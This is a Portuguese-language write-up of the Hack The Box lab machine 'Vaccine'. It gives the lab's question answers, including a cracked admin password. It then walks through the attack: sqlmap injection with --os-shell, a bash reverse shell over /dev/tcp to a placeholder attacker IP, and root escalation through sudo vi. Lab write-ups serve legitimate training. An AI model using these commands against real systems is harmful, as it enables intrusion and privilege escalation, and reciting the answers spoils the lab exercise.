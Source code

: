 # Vaccine.md

#### Tags 
`Linux` `FTP` `SQL` `SUID`

## Questões 
1. **Além de SSH e HTTP, que outro serviço está hospedado nesta caixa?**
*R:* `ftp`

2. **Este serviço pode ser configurado para permitir o login com qualquer senha para um nome de usuário específico. Qual é esse nome de usuário?**
*R:* `anonymous`

3. **Qual é o nome do arquivo baixado por meio deste serviço?**
*R:* `backup.zip`

4. **Que script vem com o conjunto de ferramentas John The Ripper e gera um hash de um arquivo zip protegido por senha em um formato para permitir tentativas de cracking?**
*R:* `zip2john`

5. **Qual é a senha para o usuário administrador no site?**
*R:* `qwerty789`

6. **Qual opção pode ser passada para o sqlmap para tentar obter a execução do comando por meio da injeção de sql?**
*R:* `--os-shell`

7. **Que programa o usuário do postgres pode executar como root usando o sudo?**
*R:* `vi`


## **Envie a flag user e root**
*Write-up:*
~~~Shell
 **Flag user:**
 sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=ojq8sk0069d5h4uq96qr93c063' --os-shell
 nc -lvnp 4444
 bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
 find / -type f -name user.txt 2>/dev/null
   /var/lib/postgresql/user.txt
    cat /var/lib/postgresql/user.txt
    HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
    **Flag Root**
     SHELL=/bin/bash script -q /dev/null
     sudo -l
     sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
     Agora em `vi`, use o comando `:!/bin/bash`para abrir um shell como root:
      cat /root/root.txt
      HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
~~~
